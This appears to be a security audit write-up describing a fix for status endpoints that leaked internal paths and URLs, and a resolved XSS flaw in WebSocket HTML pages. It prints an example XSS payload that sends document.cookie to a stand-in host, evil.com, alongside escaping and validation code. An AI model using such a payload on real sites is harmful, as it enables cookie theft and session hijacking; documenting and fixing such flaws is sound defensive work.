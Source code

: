 **Issue**: Status endpoints exposed absolute paths, internal URLs, and configuration details.

**Sensitive Data Exposed**:

- Absolute system paths (`/Users/username/Projects/...`)
- Internal URLs (`http://localhost:8675/`)
- Configuration values and system state

**Remediation - SecureStatusFormatter**:

```python
class SecureStatusFormatter:
    """Sanitizes status output by verbosity level"""

    # Path sanitization
    - Absolute paths → relative paths or [REDACTED_PATH]
    - Project paths → ./relative/path format
    - External paths → basename only or masked

    # URL sanitization
    - Internal URLs → [INTERNAL_URL] placeholder
    - Port numbers → removed

    # Error sanitization
    - Stack traces → removed at low verbosity
    - System details → generic error messages
```

**Verbosity Levels**:

- **MINIMAL**: Production default - removes all sensitive data
- **STANDARD**: MCP/API default - essential data only
- **DETAILED**: Debug mode - sanitized details
- **FULL**: Internal use - all data preserved

### 3. XSS in WebSocket HTML Endpoints (RESOLVED)

**Risk**: CVSS 6.8 - Cross-site scripting
**Status**: ✅ **FULLY RESOLVED**

**Issue**: HTML templates reflected user input without sanitization.

**Attack Vector**:

```python
job_id = "<script>fetch('http://evil.com/steal?cookie='+document.cookie)</script>"
# Injected into: f"<title>Job Monitor-{job_id}</title>"
```

**Remediation**:

```python
def _get_monitor_html(job_id: str) -> str:
    import html

    # HTML escape user input
    safe_job_id = html.escape(job_id)

    # Validate format
    if not re.match(r"^[a-zA-Z0-9_-]{1,64}$", job_id):
        return "<h1>Error</h1><p>Invalid job ID format</p>"

    return f"""
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Security-Policy"
              content="default-src 'self'; script-src 'self' 'unsafe-inline'">
        <title>Job Monitor - {safe_job_id}</title>
    </head>
```